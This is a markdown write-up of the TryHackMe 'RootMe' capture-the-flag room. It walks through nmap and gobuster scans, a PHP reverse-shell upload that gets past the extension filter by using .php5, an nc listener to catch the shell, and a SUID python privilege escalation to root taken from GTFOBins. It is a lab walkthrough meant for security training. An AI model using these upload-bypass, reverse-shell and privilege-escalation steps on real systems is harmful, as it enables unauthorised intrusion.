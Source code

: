 #### A easy level CTF. Link of the CTF is <br>https://tryhackme.com/room/rrootme
# Steps followed
1.
![Alt text](images/a.png "Title")
## Task 1:- Deploy the machine
2. Deployed the machine.<br>
## Task 2:-
3. Use <b><ins>nmap/zenmap</ins></b> for finding open ports.<br>
```
nmap -sV -T4 -O -F --version-light <ip-address>
```
4.
![Alt text](images/b.png "Title")
<br>
6.
![Alt text](images/c.png "Title")
### First Question:- Scan the machine, how many ports are open?
6. So as we can see from the screenshot that 2 ports 22 and 80 are open.
### Second Question:- What version of Apache is running?
7. Here, we can see the version of Apache that is runnung on port 80.
### Third Question:- What service is running on port 22?
8. we can see that on port 22 ssh is running.
### Forth Question:- Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt
```
9.
![Alt text](images/d.png "Title")
<br>
10.
![Alt text](images/e.png "Title")
### Fifth Question:- What is the hidden directory?
11. We can see from the screenshot that there are useful directries like js,css but our answer is of 5 letter directory name :- <ins><b> /panel/ </b></ins>
12.
![Alt text](images/f.png "Title")
## Task 3:-
### user.txt?
13.![Alt text](images/g.png "Title")
We first tried to upload Shell.php into the site but was not able to then we tried to try different php extensions like .php2,.php3,.php4 etc.
<br>
Luckily .php5 worked and we were able to upload reverse shell into the site.<br>
14. But still we are not able to get a shell. For it we need to run that file which can be done by going to another directory /uploads/.<br>
We will run 
```
nc -lvnp 1234
```
on the terminal and run our file on the site.
<br>
Hence, We received the shell in the terminal.
15. Then, we will use the following command to find where <b><ins> user.txt </b></ins>
really is
```
find / -name "user.txt" 2>/dev/null
```
16. We will get the directory where it is and do cat
```
cat /var/bin/user.txt
```
and Hence we find our flag.
```
THM{***_***_*_*****}
```
## Task 4
### First Question :- Search for files with SUID permission, which file is weird?
17. To find this we will use the following terminal cmd
```
find / -user root -perm /4000 2>/dev/null
```
now we will see all directories which file seems to be wierd.
<br>
18. And we found that file
```
/usr/bin/python
```
### Second Question :- Find a form to escalate your privileges.
19. We search for getfobins :- https://gtfobins.github.io/#+suid
<br>
20. we search for the python privilege escatalation and we found the following:-

```
sudo install -m =xs $(which python)
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and by applying it we get to the root user.
### Third Question :- root.txt
21. We implement the cmd
```
cat /root/root.txt
```
and we found our root flag
```
THM{*********_**********}
```

